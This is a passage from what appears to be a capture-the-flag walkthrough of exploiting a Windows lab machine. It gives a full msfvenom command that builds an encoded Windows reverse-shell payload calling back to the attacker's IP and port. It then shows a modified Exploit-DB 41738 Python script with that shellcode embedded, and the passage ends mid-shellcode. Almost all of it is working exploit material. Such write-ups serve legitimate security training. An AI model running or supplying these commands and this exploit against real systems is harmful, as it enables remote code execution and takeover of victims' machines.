 ```ruby
    'PrependMigrate' => true,
  },
```

This can be made into the following long `msfvenom` command:

```bash
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         EXITFUNC=process \
         PrependMigrate=true \
         BufferRegister=ESI \
         -a x86 --platform windows \
         -e x86/unicode_mixed \
         -b '\x00' \
         -s 2000 \
         -n 0 \
         -f python \
         -v shellcode
```

Now modify exploit 41738 and change `localhost` to `10.10.10.14` in the payload:

```python
import time
import socket

# msfvenom -p windows/shell_reverse_tcp \
#          LHOST=10.10.14.25 \
#          LPORT=6969 \
#          EXITFUNC=process \
#          PrependMigrate=true \
#          BufferRegister=ESI \
#          -a x86 --platform windows \
#          -e x86/unicode_mixed \
#          -b '\x00' \
#          -s 2000 \
#          -n 0 \
#          -f python \
#          -v shellcode
shellcode =  b""
shellcode += b"\x56\x56\x59\x41\x49\x41\x49\x41\x49\x41\x49"
shellcode += b"\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
shellcode += b"\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x6a"
shellcode += b"\x58\x41\x51\x41\x44\x41\x5a\x41\x42\x41\x52"
shellcode += b"\x41\x4c\x41\x59\x41\x49\x41\x51\x41\x49\x41"
shellcode += b"\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31\x41"
shellcode += b"\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49"
shellcode += b"\x41\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49"
shellcode += b"\x51\x49\x41\x49\x51\x49\x31\x31\x31\x41\x49"
shellcode += b"\x41\x4a\x51\x59\x41\x5a\x42\x41\x42\x41\x42"
shellcode += b"\x41\x42\x41\x42\x6b\x4d\x41\x47\x42\x39\x75"
shellcode += b"\x34\x4a\x42\x79\x6c\x4b\x39\x34\x46\x79\x70"
shellcode += b"\x6d\x30\x4b\x50\x6f\x6d\x35\x33\x35\x75\x4c"
shellcode += b"\x4b\x31\x71\x77\x54\x44\x30\x59\x6e\x4b\x4f"
shellcode += b"\x4b\x4f\x74\x4d\x50\x54\x4c\x64\x51\x50\x52"
shellcode += b"\x32\x72\x48\x74\x71\x4e\x6a\x30\x6b\x48\x31"
shellcode += b"\x49\x6f\x68\x55\x52\x6d\x61\x34\x6c\x64\x43"
shellcode += b"\x30\x6a\x4b\x61\x4c\x31\x4e\x72\x6d\x61\x68"
shellcode += b"\x4f\x70\x61\x47\x52\x30\x4d\x61\x39\x4b\x72"
shellcode += b"\x33\x6e\x73\x42\x48\x4b\x54\x4d\x30\x59\x70"
shellcode += b"\x59\x78\x70\x53\x32\x33\x52\x33\x42\x36\x42"
shellcode += b"\x33\x73\x38\x31\x69\x36\x6c\x6d\x6f\x31\x76"
shellcode += b"\x79\x6f\x48\x55\x64\x45\x55\x70\x33\x44\x4f"
```